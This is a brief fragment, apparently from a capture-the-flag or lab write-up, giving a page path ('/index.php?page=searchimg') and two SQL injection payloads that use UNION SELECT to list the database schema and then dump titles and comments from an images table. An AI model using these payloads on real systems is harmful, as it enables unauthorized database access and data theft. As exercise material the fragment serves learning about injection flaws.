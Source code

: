 /index.php?page=searchimg

1 UNION SELECT table_name, column_name FROM information_schema.columns
1 UNION SELECT title, comment FROM list_images 